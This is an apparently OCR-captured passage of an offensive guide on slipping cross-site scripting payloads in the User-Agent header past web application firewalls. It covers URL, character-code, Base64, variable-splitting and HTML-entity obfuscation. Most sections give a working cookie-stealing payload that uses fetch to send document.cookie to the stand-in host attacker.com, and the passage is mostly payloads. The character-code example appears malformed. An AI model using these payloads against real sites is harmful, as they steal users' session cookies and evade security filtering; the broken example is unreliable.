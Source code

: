 ## **🔹 2️⃣ URL Encoding (Basic Obfuscation)**  

>WAFs might detect `onerror=` as malicious. Use URL encoding:  

```
User-Agent: <img src=x onerror=%22fetch('http%3A%2F%2Fattacker.com%2Flog%3Fc%3D'+document.cookie)%22>
```  

>Decoded, it executes:  

```html
<img src=x onerror="fetch('http://attacker.com/log?c='+document.cookie)">
```  

## **🔹 3️⃣ Hexadecimal & Base64 Encoding**  

>Other WAFs block `document.cookie` explicitly. Encode **part of the payload**:  

```
User-Agent: <img src=x onerror="eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,61,39,+document.cookie,39,39,39,41))">
```  

>Alternatively, encode the entire payload in **Base64** and use JavaScript to decode it:  

```html
User-Agent: <script>eval(atob('ZG9jdW1lbnQuY29va2ll'))</script>
```  

>This decodes `document.cookie` dynamically at runtime.  

## **🔹 4️⃣ Using JavaScript Variables to Split the Payload**  

>If WAFs block specific **keywords** like `document.cookie`, break it into variables:  

```
User-Agent: <img src=x onerror="a='doc';b='ument';c='cookie';fetch('http://attacker.com/log?c='+window[a+b][c])">
```  

>✅ **Bypasses WAFs detecting `document.cookie` as a single string**.  

## **🔹 5️⃣ HTML Encoding (Bypass Reflection Filtering)**  

>If the app **HTML-encodes output**, encode characters:  

```
User-Agent: &lt;img src=x onerror=&quot;fetch(&apos;http://attacker.com/log?c=&apos;+document.cookie)&quot;&gt;
```  

>Decoded on the webpage:  

```html
<img src=x onerror="fetch('http://attacker.com/log?c='+document.cookie)">
```  
